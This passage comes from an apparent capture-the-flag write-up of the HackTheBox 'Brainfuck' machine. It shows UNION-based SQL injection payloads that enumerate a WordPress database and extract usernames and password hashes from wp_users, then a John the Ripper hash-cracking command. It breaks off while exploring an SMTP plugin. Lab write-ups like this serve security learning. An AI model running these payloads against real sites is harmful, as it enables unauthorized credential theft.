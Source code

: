 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604175407.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604175439.png)

The Proof-of-Concept's payload works!!

Let's modify the payload and extract it's database data!

**Enumerate database:**
```sql
0 UNION SELECT NULL,GROUP_CONCAT(schema_name),NULL FROM information_schema.schemata
```

- Database: `information_schema`,`webfolio`

We can assume that database `webfolio` is the WordPress's MySQL database.

**Extract username and password hash from table `wp_users`:**
```sql
0 UNION SELECT NULL,CONCAT(user_login,CHAR(58),user_pass),NULL FROM wp_users
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604180613.png)

Found `admin`'s password hash! Let's crack it!

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|18:05:57(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[...]
0g 0:00:05:21 86.84% (ETA: 18:12:06) 0g/s 38969p/s 38969c/s 38969C/s 3666664..36637977
```

Nope...

**Then, I found tables `wf_*` via the following payload:**
```sql
0 UNION SELECT NULL,CONCAT(table_schema,CHAR(58),table_name),NULL FROM information_schema.tables LIMIT 1 OFFSET 61
```

Those tables are for another `webfolio` WordPress CMS.

However, I tried to extract usernames and password hashes, there's no user at all.

## Initial Foothold

Ok... Take a step back again...

Is there anything else we missed?? Like WordPress plugins.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604200647.png)

Ah ha! We do miss something!

The plugin "Easy WP SMTP" is to send email via SMTP.

**Let's click on "Settings" to find interesting stuff:**
